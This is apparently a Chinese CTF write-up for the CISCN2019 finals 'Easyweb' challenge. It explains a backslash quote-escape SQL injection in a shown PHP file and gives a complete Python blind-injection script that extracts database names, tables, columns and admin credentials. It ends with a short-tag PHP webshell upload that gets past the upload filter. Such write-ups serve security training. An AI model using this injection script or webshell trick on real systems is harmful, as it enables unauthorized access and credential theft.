


# [CISCN2019 总决赛 Day2 Web1]Easyweb

## 知识点

`sql注入hex绕过引号`

`盲注`

`文件上传`

## 解题

首先在源码里找到了`image.php`,在`id`参数试了各种字符没报错,重新扫目录,发现`robots.txt`,提示`xxx.php.bak`,访问下载到`image.php`

```php
<?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

var_dump($id);

$result=mysqli_query($con,"select * from images where id='' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
```

发现可以穿传参`id=\0`,`path`闭合

`id=\0`在`addslashes`后会变为`\\0`,在`$id=str_replace(array("\\0","%00","\\'","'"),"",$id);`会变为`\`,`sql`语句就会变为

```sql
select * from images where id='\' or path='{$path}'
```

可以把这看作查询的第一个条件`'\' or path='`,`$path`即可`注释后面的'`来进行注入

`python`盲注脚本

```python
import requests
from urllib.parse import quote
from Crypto.Util.number import bytes_to_long


url = "http://03228e5b-d094-4b70-8e16-9685ced47204.node5.buuoj.cn:81/image.php?id=\\0&path=or "


def get_database_length(url):
    """ 获取数据库长度 """
    for db_length in range(20):
        tmp_url = url + quote(f"(length(database())={db_length})#")
        resp = requests.get(tmp_url, timeout=8)
        if resp.text != "":         # 返回正常页面的判断值
            print(f"Database length is: {db_length}")
            return db_length
        print(f"try {tmp_url}")
        
def get_database(db_length):
    """ 获取数据库名 """
    database = ''
    for i in range(1, db_length + 1): # 因为数据库长度为4
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            tmp_url = url + quote(f"(ord(substr(database(),{i},1))<{mid})#")
            print(f"{tmp_url}\t\tlow:{low}\t\thigh:{high}")
            resp = requests.get(tmp_url, timeout=8)
            if resp.text != "":     # response true
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        database += chr(mid - 1)
    print(f"Database is: {database}")
    return database

def get_tables_length():
    """ 获取表名长度 """
    for table_length in range(40):
        tmp_url = url + quote(f"((select(length(group_concat(table_name)))from(information_schema.tables)where(table_schema=database()))={table_length})#")
        print(tmp_url)
        resp = requests.get(tmp_url, timeout=8)
        if resp.text != "":
            print(f"Table length is: {table_length}")
            return table_length
        
def get_tables(table_length):
    """ 获取表名 """
    tables = ''
    for i in range(1, table_length + 1):
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            tmp_url = url + quote(f"(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{i},1))<{mid})#")
            print(f"{tmp_url}\t\tlow:{low}\t\thigh:{high}")
            resp = requests.get(tmp_url, timeout=8)
            if resp.text != "":
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        tables += chr(mid - 1)
        print(tables)
    print(f"Tables name is: {tables}")
    return tables

def get_column_length(table_name='Flaaaaag'):
    """ 判断列名长度 """
    for column_length in range(40):
        tmp_url = url + quote(f"((select(length(group_concat(column_name)))from(information_schema.columns)where(table_name={table_name}))={column_length})#")
        print(tmp_url)
        resp = requests.get(tmp_url, timeout=8)
        if resp.text != "":
            print(f"Column length is: {column_length}")
            return column_length
        
def get_columns_name(table_name='Flaaaaag', column_length=16):
    """ 获取列名 """
    columns = ''
    for i in range(1, column_length + 1): # 因为表长度为16
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            tmp_url = url + quote(f"(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name={table_name})),{i},1))<{mid})#")
            print(f"{tmp_url}\t\tlow:{low}\t\thigh:{high}")
            resp = requests.get(tmp_url, timeout=8)
            if resp.text != "":
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        columns += chr(mid - 1)
        print(columns)
    print(f"Column is: {columns}")
    
    
def get_value(columns, table_name, value_length=100):
    column_values = ''
    for i in range(1, value_length + 1): # 因为表长度为16
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            tmp_url = url + quote(f"(ord(substr((select(group_concat({columns}))from({table_name})),{i},1))<{mid})#")
            print(f"{tmp_url}\t\tlow:{low}\t\thigh:{high}")
            resp = requests.get(tmp_url, timeout=8)
            if resp.text != "":
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        column_values += chr(mid - 1)
        print(column_values)
    print(f"value is: {column_values}")

if __name__ == "__main__":
    # db_length = get_database_length(url)
    db_length = 10
    # db = get_database(db_length)
    db = 'ciscnfinal'
    # get_tables_length()
    table_length = 12
    # table_name = get_tables(table_length)
    table_name = 'users'
    # column_length = get_column_length(hex(bytes_to_long(table_name.encode())))      # '和"被过滤,改为16进制注入
    column_length = 17
    # columns = get_columns_name(hex(bytes_to_long(table_name.encode())), column_length)
    columns = "username,password"
    get_value(columns, table_name)  # admin5e9ee85628a060c9d02d
```

登陆后上传文件,因为`php`过滤,用短标签绕过`<?php`变为`<?=`,文件名也为`段标签写好的shell`



